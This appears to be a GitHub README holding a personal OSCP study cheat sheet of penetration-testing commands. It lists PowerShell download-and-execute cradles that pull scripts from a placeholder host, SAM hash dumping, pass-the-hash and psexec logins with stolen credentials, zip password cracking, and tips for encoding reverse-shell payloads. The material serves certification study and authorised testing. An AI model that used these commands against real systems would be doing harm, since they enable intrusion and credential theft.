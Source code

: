 # oscp-cheatsheet

## Kali General

- Listen for pings to test if you remote command worked
  - `tcpdump -i interface icmp`
- Download all files from an ftp service
  - `wget -m --no-passive ftp://anonymous:anonymous@ipaddress`
- Read zip file info
  - `7z l -slt File.zip`
- Crack a password protected zip file
   - fcrack -D -p password_List File.zip
- Useful tools
  - xclip

## Windows

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)

- Privesc
  - Test if powershell is working without breaking shell
    - `powershell whoami`
  - Pivot DoS to powershell
    - `powershell "IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/nishang.ps1")"`
  - Download string that loads a ps script into memory (if you want it to auto run make sure there is a call to the function to do so at the bottom of the script, or else it'll just load the functions into memory)
    - `IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/script.ps1")`
  - Run cmd as other user
    - `$SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred`
  - Decrypy SAM password hashes
    - `impacket-secretsdump -sam SAMFILE -system SYSTEMFILE local`
  - Determine admin accounts
    - DOS: `net localgroup administrators`
  - SAM and SYSTEM file location
    - `Windows/System32/config`
  - Log into remote windows host with stolen creds (SMB required)
    - `psexec.py user@ip`
  - Check panther directory, install logs get put in here and contain creds

- SMB
  - Connect with stolen hash
    - `smbmap -u USER -p HASH -H hostnameIP`

## Linux

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/)

## Troubleshooting

- Did an RCE test work but your payload fail?
  - Try changing single quotes to double quotes or vice versa
  - Try escaping special characters
  - Try changing your outgoing port to a more commonly used one (80, 443, 21, 22, etc)
  - Try removing bad characters
    - ex: `cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard`
      - `powsershell-enc base64scriptpaste`
  - If you used msfvenom make sure your archicitecture is correct
  - If you used msfvenom make sure your payload size isn't too large
  - If you used msfvenom try pivoting options
  
